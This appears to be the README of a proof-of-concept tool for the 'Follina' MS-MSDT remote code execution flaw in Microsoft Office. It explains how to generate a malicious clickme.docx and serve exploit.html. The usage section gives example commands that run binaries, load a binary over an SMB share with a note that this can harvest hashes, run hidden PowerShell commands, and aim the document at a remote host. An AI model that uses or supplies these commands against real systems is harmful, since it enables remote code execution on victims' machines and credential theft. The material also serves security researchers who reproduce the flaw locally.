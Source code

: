 # 'Follina' MS-MSDT n-day Microsoft Office RCE


Quick POC to replicate the 'Follina' Office RCE vulnerability for local testing purposes. Running the script will generate the `clickme.docx` payload file in your current working directory, and start a web server with the payload file (`www/exploit.html`). The payload and web server parameters are configurable (see examples).

> ⚠ DO NOT USE IN PRODUCTION LEST YOU BE REGARDED A DUMMY

## Usage:

```
python .\follina.py -h
usage: follina.py [-h] -m {command,binary} [-b BINARY] [-c COMMAND] [-u URL] [-H HOST] [-p PORT]

options:
  -h, --help            show this help message and exit

Required Arguments:
  -m {command,binary}, --mode {command,binary}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS command

Binary Execution Arguments:
  -b BINARY, --binary BINARY

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults to "localhost"
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -p PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
# Execute a local binary
python .\follina.py -m binary -b \windows\system32\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -m binary -b \windows\system32\calc.exe -u 1.2.3.4

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```

## Cool peeps

Thanks to [Kevin Beaumont](https://twitter.com/GossiTheDog) for [his original analysis](https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e) of the issue, [@KevTheHermit](https://twitter.com/KevTheHermit) for sharing their poc, and [John Hammond](https://twitter.com/_JohnHammond) for their further work on analysing payload requirements. Additional thanks to [@mkolsek](https://twitter.com/mkolsek) for the template [supporting Office 2019](https://twitter.com/mkolsek/status/1531217733546823681), and [@theluemmel](https://twitter.com/theluemmel) for sharing their version of the payload with me.
